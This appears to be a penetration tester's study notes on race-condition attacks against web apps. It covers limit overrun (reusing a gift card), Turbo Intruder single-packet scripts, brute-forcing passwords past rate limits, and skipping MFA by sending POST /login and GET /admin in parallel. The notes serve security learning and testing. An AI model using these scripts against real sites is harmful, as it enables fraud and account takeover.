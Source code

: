 # Race Conditions
## Limit overrun race condition
If site blocks multiple usaeg of same request (for example redeeming of gift card more then one time), we can possibly try to enter into "race window" during which site processes request. In such case we can send nosequent request with very small pause between requests or send multiple requests in same time. In such way we can create multiple requests during which first request is proceeded and before server starts to block it.  
With burp we can achieve this adding multiple requests in repeater into a group and sending it in parallel (using request sending options)

## Turbo Intruder race condition
Single-packet attack:
1. Ensure that target supports HTTP/2
2. Set the engine `engine=Engine.BURP2` and `concurrentConnections=1` configuration options for the request engine
3. When queueing your requests, group them by assigning them to a named gate using the `gate` argument for the `engine.queue()` method.
4. To send all of the requests in a given group, open the respective gate with the `engine.openGate()` method.

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
```

## Bypassing bruteforce rate limit
When we are sending invalid credentials sequently, we can have problem with rate limit (captcha solving or blocking of login attempts).  
We can solve this with race condition and Turbo Intruder, sending many passwords at one time.  
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    passwords = wordlists.clipboard
    
    for password in passwords:
        engine.queue(target.req, password, gate='race1')

    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)

```
Here we are using password list from our clipboard.  

## Bypassing multi-step sequences
With race conditions we could be possibly able to bypass some mechanisms such as MFA, sending request to sensitive data BEFORE MFA is generated and checked.
```
POST /login
GET /admin
```
If we will send this requests quick enough, we could be potentially able to bypass MFA check which must arise right after login request.  
